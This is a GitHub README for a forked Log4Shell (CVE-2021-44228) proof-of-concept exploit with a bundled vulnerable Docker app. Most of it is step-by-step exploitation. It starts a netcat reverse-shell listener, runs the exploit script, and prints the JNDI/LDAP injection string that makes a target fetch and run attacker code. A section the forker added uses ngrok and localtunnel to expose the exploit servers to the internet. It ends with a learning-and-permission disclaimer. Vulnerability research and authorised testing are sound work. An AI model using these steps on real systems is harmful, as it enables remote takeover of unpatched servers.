 # HOW TO USE

make server demo  

```
docker build -t log4j-shell-poc .
docker run --network host log4j-shell-poc
```

use script

```
sudo git clone https://github.com/VHAE04/log4j-shell-poc
cd log4j-shell-poc
sudo wget https://github.com/VHAE04/log4j-shell-poc/releases/download/file/jdk1.8.0_20.zip
sudo unzip jdk1.8.0_20.zip
sudo chmod 777 -R jdk1.8.0_20
sudo pip install -r requirements.txt
sudo python3 poc.py --userip localhost --webport 8000 --lport 9001
```

open wan with ngrok NAT netcat and port tcp listen redirc

```
curl -s https://ngrok-agent.s3.amazonaws.com/ngrok.asc | sudo tee /etc/apt/trusted.gpg.d/ngrok.asc >/dev/null && echo "deb https://ngrok-agent.s3.amazonaws.com buster main" | sudo tee /etc/apt/sources.list.d/ngrok.list && sudo apt update && sudo apt install ngrok

ngrok tcp 1389
```

use NAT port server

```
npx localtunnel --port 8080
```



# log4j-shell-poc
A Proof-Of-Concept for the recently found CVE-2021-44228 vulnerability. <br><br>
Recently there was a new vulnerability in log4j, a java logging library that is very widely used in the likes of elasticsearch, minecraft and numerous others.

In this repository we have made and example vulnerable application and proof-of-concept (POC) exploit of it.


A video showing the exploitation process
----------------------------------------

Vuln Web App:

https://user-images.githubusercontent.com/87979263/146113359-20663eaa-555d-4d60-828d-a7f769ebd266.mp4

<br>

Ghidra (Old script):

https://user-images.githubusercontent.com/87979263/145728478-b4686da9-17d0-4511-be74-c6e6fff97740.mp4

<br>

Minecraft PoC (Old script):

https://user-images.githubusercontent.com/87979263/145681727-2bfd9884-a3e6-45dd-92e2-a624f29a8863.mp4


Proof-of-concept (POC)
----------------------

As a PoC we have created a python file that automates the process. 


#### Requirements:
```bash
pip install -r requirements.txt
```
#### Usage:

- wget jdk 
- chmod -R 777 folder jdk

* Start a netcat listener to accept reverse shell connection.<br>
```py
nc -lvnp 9001
```
* Launch the exploit.<br>
**Note:** For this to work, the extracted java archive has to be named: `jdk1.8.0_20`, and be in the same directory.
```py
$ python3 poc.py --userip localhost --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```

This script will setup the HTTP server and the LDAP server for you, and it will also create the payload that you can use to paste into the vulnerable parameter. After this, if everything went well, you should get a shell on the lport.

<br>


Our vulnerable application
--------------------------

We have added a Dockerfile with the vulnerable webapp. You can use this by following the steps below:
```c
1: docker build -t log4j-shell-poc .
2: docker run --network host log4j-shell-poc
```
Once it is running, you can access it on localhost:8080

If you would like to further develop the project you can use Intellij IDE which we used to develop the project. We have also included a `.idea` folder where we have configuration files which make the job a bit easier. You can probably also use other IDE's too.

<br>

Getting the Java version.
--------------------------------------

At the time of creating the exploit we were unsure of exactly which versions of java work and which don't so chose to work with one of the earliest versions of java 8: `java-8u20`.

Oracle thankfully provides an archive for all previous java versions:<br>
[https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html).<br>
Scroll down to `8u20` and download the appropriate files for your operating system and hardware.
![Screenshot from 2021-12-11 00-09-25](https://user-images.githubusercontent.com/46561460/145655967-b5808b9f-d919-476f-9cbc-ed9eaff51585.png)

**Note:** You do need to make an account to be able to download the package.

Once you have downloaded and extracted the archive, you can find `java` and a few related binaries in `jdk1.8.0_20/bin`.<br>
**Note:** Please make sure to extract the jdk folder into this repository with the same name in order for it to work.

```
❯ tar -xf jdk-8u20-linux-x64.tar.gz

❯ ./jdk1.8.0_20/bin/java -version
java version "1.8.0_20"
Java(TM) SE Runtime Environment (build 1.8.0_20-b26)
Java HotSpot(TM) 64-Bit Server VM (build 25.20-b23, mixed mode)
```

Disclaimer
----------
This repository is not intended to be a one-click exploit to CVE-2021-44228. The purpose of this project is to help people learn about this awesome vulnerability, and perhaps test their own applications (however there are better applications for this purpose, ei: [https://log4shell.tools/](https://log4shell.tools/)).

Our team will not aid, or endorse any use of this exploit for malicious activity, thus if you ask for help you may be required to provide us with proof that you either own the target service or you have permissions to pentest on it.

